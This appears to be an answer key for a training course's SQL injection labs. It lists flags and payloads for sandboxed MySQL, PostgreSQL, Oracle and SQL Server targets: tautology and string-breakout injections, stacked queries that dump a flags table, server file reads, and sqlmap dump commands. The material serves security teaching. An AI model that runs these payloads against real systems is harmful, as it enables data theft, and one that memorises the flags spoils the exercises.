# **SQL Injection**

## **Introduction to SQL Injection**

#### **Lab 1.** Go to http://sql-sandbox/intro. Using MySQL as the database, manipulate the input to retrieve more than one record to obtain the flag.

Answer - OS{introToSQLinjection}
- Payload
```
10 or 11
```


#### **Lab 2.** Go to http://sql-sandbox/intro. Using PostgreSQL as the database, manipulate the input to retrieve more than one record to obtain the flag.

Answer - OS{introToPostgreSQLinjection}
- Payload
```
10 OR 1=1;
```



#### **Lab 3.** Go to http://sql-sandbox/intro. Using Oracle as the database, manipulate the input to retrieve more than one record to obtain the flag.

Answer - OS{introToSQLinjectionOracleStyle}
- Payload
```
10 or id=11
```


#### **Lab 4.** Go to http://sql-sandbox/intro. Using SQL Server as the database, manipulate the input to retrieve more than one record to obtain the flag.

Answer - OS{introToSQLinjectionInSQLServer}
- Payload
```
10 or id=11
```


---

## **Testing for SQL Injection - String Delimiters**

#### **Lab 1.** Using MySQL as the database, manipulate the input to retrieve more than one record to obtain the flag.

Answer - OS{6503B065AFF5ACE1308B07D54769BF10}
- Payload
```
hello' or '1'='1
```



#### **Lab 2.** Using PostgreSQL as the database, manipulate the input to retrieve more than one record to obtain the flag.

Answer - OS{476C93C0A2466BD36924F96146378C8E}
- Payload
```
hello' or '1'='1
```


#### **Lab 3.** Using Oracle as the database, manipulate the input to retrieve more than one record to obtain the flag.

Answer - OS{91F35A8367B5A95A9AD223491BC4801D}
- Payload
```
hello' or '1'='1
```



#### **Lab 4.** Using SQL Server as the database, manipulate the input to retrieve more than one record to obtain the flag.

Answer - OS{EB18CFA47DAF5C2A6487AC692B6FFCB9}
- Payload
```
hello' or '1'='1
```


---

## **Testing for SQL Injection - Closing Out Strings and Functions**

#### **Lab 1.** Using MySQL as the database, manipulate the input to retrieve more than one record to obtain the flag.

Answer - OS{6942EE0E8B2099BCDD9FB43395177CB5}
- Payload
```
foo') or 1=1-- ')
```


#### **Lab 2.** Using PostgreSQL as the database, manipulate the input to retrieve more than one record to obtain the flag.

Answer - OS{01ACF1894453697DDA76B61C19C9314D}
- Payload
```
foo') or 1=1-- ')
```


#### **Lab 3.** Using Oracle as the database, manipulate the input to retrieve more than one record to obtain the flag.

Answer - OS{63D819C008D86996F8A20DEEC3E2E16C}
- Payload
```
foo') or 1=1-- ')
```



#### **Lab 3.** Using SQL Server as the database, manipulate the input to retrieve more than one record to obtain the flag.

Answer - OS{EC926D156AF96773EE3C2E6BA51FB9D3}
- Payload
```
foo') or 1=1-- ')
```


---

## **Testing for SQL Injection - Sorting**

#### **Lab 1.** Using MySQL as the database, use Burp Suite to intercept and manipulate requests to generate an SQL syntax error to obtain the flag.

Answer - OS{AD3106F005E0D28213D22BB9F7454404}
- Payload
```
db=mysql&sort=id'&order=asc
```


#### **Lab 2.** Using PostgreSQL as the database, use Burp Suite to intercept and manipulate requests to generate an SQL syntax error to obtain the flag.

Answer - OS{F76851588399E3785CF498A15182A284}
- Payload
```
db=postgres&sort=&order=asc
```



#### **Lab 3.** Using Oracle as the database, use Burp Suite to intercept and manipulate requests to generate an SQL syntax error to obtain the flag.

Answer - OS{2EA78C45CC9F009D05435EFD4AE1CAE9}
- Payload
```
db=oracle&sort=id'&order=asc
```



#### **Lab 4.** Using SQL Server as the database, use Burp Suite to intercept and manipulate requests to generate an SQL syntax error to obtain the flag.

Answer - OS{CF02B09FE7DCA253AC052837E7AB3F47}
- Payload
```
db=mssql&sort=&order=asc
```


---

## **Testing for SQL Injection - Boundary Testing**

#### **Lab 1.** Using MySQL as the database, use Burp Suite to intercept and manipulate requests to generate an SQL syntax error to obtain the flag.

Answer - OS{3F752DC21FE3D0031F54E68DE0A4E76A}
- Payload
```
db=mysql&sort=4&order=0
```



#### **Lab 2.** Using PostgreSQL as the database, use Burp Suite to intercept and manipulate requests to generate an SQL syntax error to obtain the flag.

Answer - OS{4B4C606683D6AA7607B7E5D0CD634D6A}
- Payload
```
db=postgres&sort=4&order=0
```


#### **Lab 3.** Using Oracle as the database, use Burp Suite to intercept and manipulate requests to generate an SQL syntax error to obtain the flag.

Answer - OS{E7DF2638B96E1AAC2473C46F88E2DA4A}
- Payload
```
db=oracle&sort=4&order=0
```


#### **Lab 4.** Using SQL Server as the database, use Burp Suite to intercept and manipulate requests to generate an SQL syntax error to obtain the flag.

Answer - OS{EB931C49AD63A3E7F65AAF5247668AF9}
- Payload
```
db=mssql&sort=4&order=0
```


---

## **Testing for SQL Injection - Fuzzing**

#### **Lab 1.** Using MySQL as the database, generate an SQL syntax error to obtain the flag.

Answer - OS{83B90225DEAC76F96DA8E4700C2CC79D}


#### **Lab 2.** Using PostgreSQL as the database, generate an SQL syntax error to obtain the flag.

Answer - OS{7ABD7BBCAA402D0DA8E024545B66EA1A}


#### **Lab 3.** Using Oracle as the database, generate an SQL syntax error to obtain the flag.

Answer - OS{95E31FE55146075BFCA03885C04CE635}


#### **Lab 4.** Using SQL Server as the database, generate an SQL syntax error to obtain the flag.

Answer - OS{6165307AEBF8C697870758F72B08FCE8}

---

## **Exploiting SQL Injection - UNION-based Payloads**

#### **Lab 1.** Determine what database software the endpoint is using (MySQL, SQL Server, Oracle, or PostgreSQL).

Answer - MySQL

#### **Lab 2.** Use UNION-based payloads to identify the hidden table and extract the flag.

Answer - 

---

## **Exploiting SQL Injection - Stacked Queries**

#### **Lab 1.** Determine what database software the endpoint is using.

Answer - PostgreSQL
- Payload
```
name=chair&sort=id&order=asc;SELECT version();
```


#### **Lab 2.** Use stacked query payloads to identify the hidden table and to extract the flag.

Answer - OS{stackUpThoseQueries}
- Payload
```
name=chair&sort=id&order=asc;SELECT tablename FROM pg_tables WHERE schemaname = 'public';

name=chair&sort=id&order=asc;SELECT * FROM flags;
```




---

## **Exploiting SQL Injection - Reading and Writing Files**

#### **Lab 1.** Using PostgreSQL as the database, access the contents of /tmp/flag.txt.

Answer - OS{databasesAreMoreThanJustFiles}
Payload:
```
SELECT pg_read_file('/tmp/flag.txt')
```



#### **Lab 2.** Using MySQL as the database, access the contents of /var/lib/mysql-files/flag.txt.

Answer - OS{readingIsFUNdamental}

- Check if secure_file_priv is enabled in MySQL
```
SELECT @@GLOBAL.secure_file_priv;
```


- Read the flag.
```
SELECT LOAD_FILE('/var/lib/mysql-files/flag.txt');
```


---

## **Exploiting SQL Injection - Extra Miles**

#### **Lab 1.** Identify the URL and parameter vulnerable to SQL injection. Obtain the flag from the flags table.

Answer - 

#### **Lab 2.** Exploit the SQL injection vulnerability to create a web shell on the server and gain access to /root/flag.txt.

Answer - 

---

## **Database dumping with Automated Tools - SQLMap**

#### **Lab 1.** Use sqlmap to target http://sql-sandbox/sqlmap/api with MySQL as the database. Obtain the flag.

Answer - OS{SQLMapFlagForMySQL}
- Payload
```
sqlmap -u http://192.168.158.101/sqlmap/api --method POST --data "db=mysql&name=taco&sort=id&order=asc" -p "name,sort,order"

sqlmap -u http://192.168.158.101/sqlmap/api --method POST --data "db=mysql&name=taco&sort=id&order=asc" -p "name,sort,order" --dbms=mysql --dump
```


#### **Lab 2.** Use sqlmap to target http://sql-sandbox/sqlmap/api with PostgreSQL as the database. Obtain the flag.

Answer - OS{PostgreSQLsqlmapFlag}
- Payload
```
sqlmap -u http://192.168.158.101/sqlmap/api --method POST --data "db=postgres&name=taco&sort=id&order=asc" -p "name,sort,order"

sqlmap -u http://192.168.158.101/sqlmap/api --method POST --data "db=postgres&name=taco&sort=id&order=asc" -p "name,sort,order" --dbms=postgres --flush-session --dump
```



#### **Lab 3.** Use sqlmap to target http://sql-sandbox/sqlmap/api with Microsoft SQL Server as the database. Obtain the flag.

Answer - OS{secretSQLmapFlagForMSSQL}

- Enumerating Databases
```
sqlmap -u http://192.168.158.101/sqlmap/api --method POST --data "db=mssql&name=taco&sort=id&order=asc" -p "name,sort,order" --dbs
```


- Enumerating Tables
```
sqlmap -u http://192.168.158.101/sqlmap/api --method POST --data "db=mssql&name=taco&sort=id&order=asc" -p "name,sort,order" -D sqlmap --tables
```


- Data Extraction from table
```
sqlmap -u http://192.168.158.101/sqlmap/api --method POST --data "db=mssql&name=taco&sort=id&order=asc" -p "name,sort,order"  -D sqlmap -T flags --dump
```


#### **Lab 4.** Use sqlmap to target http://sql-sandbox/sqlmap/api with Oracle as the database. Obtain the flag.

Answer - OS{OracleSQLmapFlag}

- Enumerating Databases
```
sqlmap -u http://192.168.158.101/sqlmap/api --method POST --data "db=oracle&name=taco&sort=id&order=asc" -p "name,sort,order" --dbs
```


- Enumerating Tables
```
sqlmap -u http://192.168.158.101/sqlmap/api --method POST --data "db=oracle&name=taco&sort=id&order=asc" -p "name,sort,order" -D sqlmap --tables
```


- Data Extraction from table
```
sqlmap -u http://192.168.158.101/sqlmap/api --method POST --data "db=oracle&name=taco&sort=id&order=asc" -p "name,sort,order" -D sqlmap  -T flags --dump
```
